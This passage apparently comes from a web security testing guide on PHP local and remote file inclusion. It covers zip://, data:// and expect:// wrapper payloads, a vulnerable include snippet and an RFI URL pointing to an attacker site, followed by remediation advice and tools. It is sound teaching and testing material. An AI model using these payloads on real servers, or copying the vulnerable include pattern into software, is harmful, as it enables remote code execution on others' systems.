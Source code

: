 Since on our sample the `.php` extension is concatenated to our payload, the request to `http://vulnerable_host/preview.php?file=zip://../avatar/target.jpg%23code` will result in the execution of the `code.php` file existing in the malicious ZIP file.

###### PHP Data

Available since PHP 5.2.0, this wrapper expects the following usage: `data://text/plain;base64,BASE64_STR` where `BASE64_STR` is expected to be the Base64 encoded content of the file to be processed. It's important to consider that this wrapper would only be available if the option `allow_url_include` would be enabled.

In order to test for LFI using this wrapper, the code to be executed should be Base64 encoded. For example, `<?php phpinfo(); ?>` would be encoded as: `PD9waHAgcGhwaW5mbygpOyA/Pg==` and the payload would be represented as: `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`.

###### PHP Expect

This wrapper, which is not enabled by default, provides access to processes `stdio`, `stdout`, and `stderr`. Given in the format `expect://command`, the server would execute the provided command using `BASH` and return the result.

#### Testing for Remote File Inclusion

Since RFI occurs when URLs passed to `include` statements are not properly sanitized, in a black-box testing approach, we should look for scripts that take filenames as parameters. Consider the following PHP example:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against an allow list), so this snippet of code is vulnerable to this type of attack. Consider the following URL:

`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page`

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

### Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible, the application can maintain an allow list of files that may be included by the page, and then use an identifier (for example, the index number) to access the selected file. Any request containing an invalid identifier should be rejected so that there is no opportunity for malicious users to manipulate the path.
Check out the [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) for good security practices on this topic.

### Tools

- [kadimus](https://github.com/P0cL4bs/Kadimus)
- [LFI Suite](https://github.com/D35m0nd142/LFISuite)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org)
